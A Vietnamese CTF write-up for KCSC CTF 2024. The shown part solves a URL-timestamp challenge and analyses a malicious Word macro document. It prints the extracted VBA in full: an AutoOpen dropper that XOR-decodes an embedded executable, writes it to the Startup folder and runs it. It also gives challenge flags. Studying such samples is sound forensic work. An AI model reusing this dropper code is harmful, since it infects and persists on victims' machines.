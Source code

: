 Hello cả nhà, đợt vừa rồi mình được 1 anh trai siêu tốt bụng cho mượn nick để chơi KCSC CTF 2024, nên hôm nay mình muốn viết writeup tất cả những bài mình giải được
và đây là năm đầu tiên mình có cơ hội tham gia giải CTF của trường mà mình đã trượt NV1 😔😔. Thui hong buồn nữa, bắt đầu nè!!!

### Externet Inplorer

Bài cho chúng ta 1 đường link và yêu cầu chúng ta tìm timestamp của nó khi được search. Challenge này khá là dễ, các bạn chỉ cần sử dụng [tool](https://dfir.blog/unfurl/) là ra nha :3 

**KCSC{2023-09-18_08:32:22.547027}**

### Jumper In Disguise

Sample của chúng ta là 1 file .docm và chúng ta phải điều tra xem nó có thực sự độc hại hay không. Với những bài dạng kiểu này, mình luôn để ý đến VBA code - những dòng code phụ trách 
việc thực thi các tác vụ tự động, và kẻ xấu có thể chỉnh sửa đoạn code này cho mục đích xấu

Đầu tiên, mình sử dụng **olevba.py** để extract toàn bộ VBA code:

<details>
<summary>
	VBA code nè
</summary>
	
```
Function zzz(troll As String) As String
    Dim aaa As String
    Dim bbb As String
    Dim ccc As String
    Dim i As Integer
    aaa = ""
    For i = 1 To Len(troll) Step 2
        aaa = aaa & ChrW("&H" & Mid(troll, i, 2))
    Next i
    bbb = "4444"
    ccc = ""
    For i = 1 To Len(aaa)
        ccc = ccc & ChrW(AscW(Mid(aaa, i, 1)) Xor AscW(Mid(bbb, (i - 1) Mod Len(bbb) + 1, 1)))
    Next i
    
    zzz = ccc
End Function
Sub AutoOpen()
    MsgBox "YOU GOT BONKED"
    MsgBox "KCSC{Keep_findin_till_reveal_secret}"
    Dim troll As String
    Dim nifal As String
    troll = "7a4a5c4245565a1742525a435058461b11405b5844575c421140525c4440565911595a5c5a5c46161012"
    nifal = zzz(troll)


Dim luachua
Dim file_length As Long
Dim length As Long
file_length = FileLen(ActiveDocument.FullName)
luachua = FreeFile
Open (ActiveDocument.FullName) For Binary As #luachua
Dim lem() As Byte
ReDim lem(file_length)
Get #luachua, 1, lem
Dim eee As String
eee = StrConv(lem, vbUnicode)
Dim fff, rrr
Dim nbv
    Set nbv = CreateObject("vbscript.regexp")
    nbv.Pattern = "SUPERNOVAOVERLOAD"
    Set rrr = nbv.Execute(eee)
Dim idx

For Each fff In rrr
idx = fff.FirstIndex
Exit For
Next

En = Environ("appdata") & "\Microsoft\Windows\Start Menu\Programs\Startup"
Set fszzzzz = CreateObject("Scripting.FileSystemObject")
Dim wakuwaku() As Byte
Dim soj As Long
soj = 4296810
ReDim wakuwaku(soj)
Get #luachua, idx + 18, wakuwaku
Dim bruh
bruh = FreeFile
deced = wakuwaku

Dim mei() As Byte
mei = deced
bbb = "4444"
For i = 1 To (soj + 1)
    jdj = deced(i - 1) Xor AscW(Mid(bbb, (i - 1) Mod Len(bbb) + 1, 1))
    mei(i - 1) = jdj
    Next i

namae = En & "\" & "Acheron.exe"
Open (namae) For Binary As #bruh
Put #bruh, 1, mei

Close #bruh
Erase wakuwaku
Set ceo = CreateObject("WScript.Shell")
ceo.Run """" + namae + """" + nifal
ActiveDocument.Save
End Sub
```
</details>
